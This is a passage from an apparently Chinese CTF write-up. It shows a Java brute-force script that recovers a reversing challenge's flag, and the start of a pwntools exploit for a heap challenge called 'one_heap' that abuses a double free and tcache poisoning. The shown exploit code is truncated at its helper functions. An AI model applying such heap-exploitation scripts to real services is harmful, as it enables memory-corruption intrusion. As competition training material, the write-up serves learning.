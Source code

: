 用jeb打开，能最终定位到一个关键函数，这个函数输入两个参数

第一个是flag，第二个是hellodsctf字符串的md5，输出为cipher。

直接爆破每一位

```
import java.lang.String;

public class Main `{`
   public static void main(String[] args) `{`
       c a = new c();
       String flag = "sctf`{`";
       String printable = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$%&amp;()*+,-.:;&lt;=&gt;?@[]^_`{`|`}`~";
       String ss = "C28BC39DC3A6C283C2B3C39DC293C289C2B8C3BAC29EC3A0C3A7C29A1654C3AF28C3A1C2B1215B53";
       for(int j=0;j&lt;100;j++)
       `{`
           for(int i=0;i&lt;printable.length();i++)
           `{`
               String now=  flag + printable.charAt(i);
               //System.out.println(now);
               String d = a.a(now,"E7E64BF658BAB14A25C9D67A054CEBE5");
               if(ss.indexOf(d) == 0)
               `{`
                   System.out.println("flag: " + now);
                   flag = now;
               `}`
           `}`
           //break;
       `}`
   `}`
`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t014008c77063d0b87b.png)



## Pwn

### <a class="reference-link" name="one_heap"></a>one_heap

存在double free的漏洞，利用heap的地址爆破proc的偏移实现house of three leak，

然后常规的tache attack就行。爆破几率在1/4096估计跑一下午就能出来。。

```
from pwn import*
context.log_level = "debug"
p = process("./one_heap")
a = ELF("./libc-2.27.so")
#p = remote("47.104.89.129",10001)
gdb.attach(p)
def new(size,content):
    p.recvuntil("Your choice:")
    p.sendline("1")
    p.recvuntil("Input the size:")
    p.sendline(str(size))
    p.recvuntil("Input the content:")
    p.sendline(content)
def remove():
    p.recvuntil("Your choice:")
    p.sendline("2")
```